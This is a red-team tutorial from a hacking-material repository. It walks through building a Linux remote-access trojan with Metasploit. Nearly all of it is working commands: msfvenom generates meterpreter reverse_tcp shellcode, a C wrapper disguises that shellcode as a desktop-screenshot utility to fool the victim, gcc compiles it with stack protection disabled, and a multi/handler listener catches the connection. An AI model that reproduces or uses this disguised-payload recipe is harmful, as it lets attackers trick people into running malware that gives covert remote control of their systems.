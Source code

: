#### EXERCISE OBJECTIVES
Take control of a linux system remotely ( metasploit - RAT )

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also contains a system command that takes a screenshot to the desktop of the target PC using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic.<br />

<br /><br />

| DEPENDENCIE | FUNCTION | REQUIRED |
|---|---|---|
| Metasploit | Build shellcode ; recive connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

<br /><br /><br />

### STEP-BY-STEP (HOW-TO)

<br /><br />

#### Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br />

#### Start postgresql service

```
sudo service postgresql start
```

<br />

#### Use Metasploit to Build Shellcode in C Format

```
## Build raw shellcode in C
# WARNING: Replace LHOST value by your local ip address
# WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -a x86 --platform linux -f c -o chars.raw

```

- **Msfvenom Syntax**
  - -p payload name
  - -a payload arch
  - -f payload format
  - -o write output to a file 

<br />

#### See whats written inside chars.raw (optional)

```
cat chars.raw
```

<br />

#### Parse shellcode data and store it into a local bash variable

```
pa=$(cat chars.raw | grep -v "=" | tr -d '"; ' | tr -d '\n')
```

<br />

#### Insert the C shellcode created into a C program

```
echo "#include<stdio.h>" > payload.c
echo "#include<stdlib.h>" >> payload.c
echo "#include<string.h>" >> payload.c
echo "" >> payload.c
echo "unsigned char buf[] = \"$pa\";" >> payload.c
echo "" >> payload.c
echo "int main()" >> payload.c
echo "{" >> payload.c
echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
echo "  void (*ret)() = (void(*)())buf;" >> payload.c
echo "  ret();" >> payload.c
echo "}" >> payload.c
```

<br />

#### See whats written inside payload.c (optional)

```
cat payload.c
```

<br />

#### Use GCC to compile the C program (make it executable)

```
sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br />

#### Start metasploit multi handler

```
# WARNING: Replace LHOST value by your local ip address
# WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br />

#### Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019



